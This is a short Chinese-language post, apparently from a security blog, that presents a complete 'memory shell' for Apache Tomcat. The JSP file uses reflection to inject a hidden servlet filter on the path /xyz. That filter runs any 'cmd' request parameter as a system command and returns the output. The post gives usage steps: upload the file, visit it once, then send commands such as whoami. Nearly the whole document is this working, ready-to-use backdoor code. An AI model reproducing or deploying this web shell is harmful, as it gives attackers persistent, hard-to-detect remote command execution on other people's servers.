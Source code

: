 完整内存马
=====

最终 jsp 文件, 只需传到 tomcat 目录并访问一次，然后再访问其 jsp 文件../xyz?cmd=whoami 即可

```
<%@ page contentType="text/html;charset=UTF-8" language="java" %><%@ page import = "org.apache.catalina.Context" %><%@ page import = "org.apache.catalina.core.ApplicationContext" %><%@ page import = "org.apache.catalina.core.ApplicationFilterConfig" %><%@ page import = "org.apache.catalina.core.StandardContext" %><!-- tomcat 8/9 --><!-- page import = "org.apache.tomcat.util.descriptor.web.FilterMap"page import = "org.apache.tomcat.util.descriptor.web.FilterDef" --><!-- tomcat 7 --><%@ page import = "org.apache.catalina.deploy.FilterMap" %><%@ page import = "org.apache.catalina.deploy.FilterDef" %><%@ page import = "javax.servlet.*" %><%@ page import = "java.io.IOException" %><%@ page import = "java.lang.reflect.Constructor" %><%@ page import = "java.lang.reflect.Field" %><%@ page import = "java.util.Map" %><%    class filterDemo implements Filter {        @Override        public void init(FilterConfig filterConfig) throws ServletException {        }        public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {            String cmd = servletRequest.getParameter("cmd");            if (cmd!= null) {                Process process = Runtime.getRuntime().exec(cmd);                java.io.BufferedReader bufferedReader = new java.io.BufferedReader(                        new java.io.InputStreamReader(process.getInputStream()));                StringBuilder stringBuilder = new StringBuilder();                String line;                while ((line = bufferedReader.readLine()) != null) {                    stringBuilder.append(line + '\n');                }                servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());                servletResponse.getOutputStream().flush();                servletResponse.getOutputStream().close();                return;            }            filterChain.doFilter(servletRequest, servletResponse);        }        @Override        public void destroy() {        }    }%><%    //从org.apache.catalina.core.ApplicationContext反射获取context方法    ServletContext servletContext =  request.getSession().getServletContext();    Field appctx = servletContext.getClass().getDeclaredField("context");    appctx.setAccessible(true);    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);    Field stdctx = applicationContext.getClass().getDeclaredField("context");    stdctx.setAccessible(true);    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);    Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");    Configs.setAccessible(true);    Map filterConfigs = (Map) Configs.get(standardContext);    String name = "filterDemo";//判断是否存在filterDemo1这个filter，如果没有则准备创建    if (filterConfigs.get(name) == null){        //定义一些基础属性、类名、filter名等        filterDemo filter = new filterDemo();        FilterDef filterDef = new FilterDef();        filterDef.setFilterName(name);        filterDef.setFilterClass(filter.getClass().getName());        filterDef.setFilter(filter);        //添加filterDef        standardContext.addFilterDef(filterDef);        //创建filterMap，设置filter和url的映射关系,可设置成单一url如/xyz ,也可以所有页面都可触发可设置为/*        FilterMap filterMap = new FilterMap();        // filterMap.addURLPattern("/*");        filterMap.addURLPattern("/xyz");        filterMap.setFilterName(name);        filterMap.setDispatcher(DispatcherType.REQUEST.name());        //添加我们的filterMap到所有filter最前面        standardContext.addFilterMapBefore(filterMap);        //反射创建FilterConfig，传入standardContext与filterDef        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);        constructor.setAccessible(true);        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);        //将filter名和配置好的filterConifg传入        filterConfigs.put(name,filterConfig);        out.write("Inject success!");    }    else{        out.write("Injected!");    }%>
```

使用示例

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavyzibNibj36CHSSudETw4pzic42FHOSIJWOTiaia47NSlEhwmLoiaDiajXUZUD7QN6IFDZLM90KavjD9h6icw/640?wx_fmt=png)
